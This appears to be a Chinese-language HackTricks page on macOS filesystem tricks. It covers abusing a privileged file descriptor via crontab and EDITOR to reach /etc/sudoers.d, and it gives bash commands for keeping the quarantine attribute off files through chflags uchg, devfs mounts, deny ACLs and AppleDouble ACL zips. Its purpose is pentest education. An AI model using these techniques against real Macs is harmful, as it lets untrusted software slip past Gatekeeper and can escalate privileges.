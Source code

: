 # macOS文件系统技巧

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks云平台 ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* 你在一家**网络安全公司**工作吗？你想在HackTricks中看到你的**公司广告**吗？或者你想获得**PEASS的最新版本或下载PDF格式的HackTricks**吗？请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 发现我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)收藏品[**The PEASS Family**](https://opensea.io/collection/the-peass-family)
* 获取[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)
* **加入**[**💬**](https://emojipedia.org/speech-balloon/) [**Discord群组**](https://discord.gg/hRep4RUj7f)或[**电报群组**](https://t.me/peass)，或者**关注**我在**Twitter**上的[**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**。**
* **通过向**[**hacktricks repo**](https://github.com/carlospolop/hacktricks) **和**[**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud) **提交PR来分享你的黑客技巧。**

</details>

## 任意文件描述符（Arbitrary FD）

如果你能让一个**进程以高权限打开一个文件或文件夹**，你可以滥用**`crontab`**来以**`EDITOR=exploit.py`**的方式打开`/etc/sudoers.d`中的一个文件，这样`exploit.py`将获得`/etc/sudoers`中文件的文件描述符（FD）并进行滥用。

例如：[https://youtu.be/f1HA5QhLQ7Y?t=21098](https://youtu.be/f1HA5QhLQ7Y?t=21098)

## 避免隔离xattrs的技巧

### uchg标志

如果一个文件/文件夹具有这个不可变属性，就无法在其上放置xattr。
```bash
echo asd > /tmp/asd
chflags uchg /tmp/asd
xattr -w com.apple.quarantine "" /tmp/asd
xattr: [Errno 1] Operation not permitted: '/tmp/asd'
```
### defvfs 挂载

**devfs** 挂载**不支持 xattr**，更多信息请参考 [**CVE-2023-32364**](https://gergelykalman.com/CVE-2023-32364-a-macOS-sandbox-escape-by-mounting.html)
```bash
mkdir /tmp/mnt
mount_devfs -o noowners none "/tmp/mnt"
chmod 777 /tmp/mnt
mkdir /tmp/mnt/lol
xattr -w com.apple.quarantine "" /tmp/mnt/lol
xattr: [Errno 1] Operation not permitted: '/tmp/mnt/lol'
```
### writeextattr ACL

此ACL防止向文件添加`xattrs`。
```bash
rm -rf /tmp/test*
echo test >/tmp/test
chmod +a "everyone deny write,writeattr,writeextattr,writesecurity,chown" /tmp/test
ls -le /tmp/test
ditto -c -k test test.zip
# Download the zip from the browser and decompress it, the file should be without a quarantine xattr

cd /tmp
echo y | rm test

# Decompress it with ditto
ditto -x -k --rsrc test.zip .
ls -le /tmp/test

# Decompress it with open (if sandboxed decompressed files go to the Downloads folder)
open test.zip
sleep 1
ls -le /tmp/test
```
### **com.apple.acl.text权限**

**AppleDouble**文件格式会复制文件及其ACEs。

在[**源代码**](https://opensource.apple.com/source/Libc/Libc-391/darwin/copyfile.c.auto.html)中，可以看到存储在名为**`com.apple.acl.text`**的xattr中的ACL文本表示将被设置为解压后文件的ACL。因此，如果您将应用程序压缩为带有ACL的zip文件，并阻止其他xattr写入它...则隔离xattr不会设置到应用程序中：

有关更多信息，请查看[**原始报告**](https://www.microsoft.com/en-us/security/blog/2022/12/19/gatekeepers-achilles-heel-unearthing-a-macos-vulnerability/)。

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks云 ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* 您在**网络安全公司**工作吗？您想在HackTricks中**宣传您的公司**吗？或者您想获得**PEASS的最新版本或下载PDF格式的HackTricks**吗？请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 发现我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)收藏品[**The PEASS Family**](https://opensea.io/collection/the-peass-family)
* 获取[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)
* **加入**[**💬**](https://emojipedia.org/speech-balloon/) [**Discord群组**](https://discord.gg/hRep4RUj7f)或[**电报群组**](https://t.me/peass)，或在**Twitter**上**关注**我[**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**。**
* **通过向**[**hacktricks repo**](https://github.com/carlospolop/hacktricks) **和**[**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud) **提交PR来分享您的黑客技巧。**

</details>
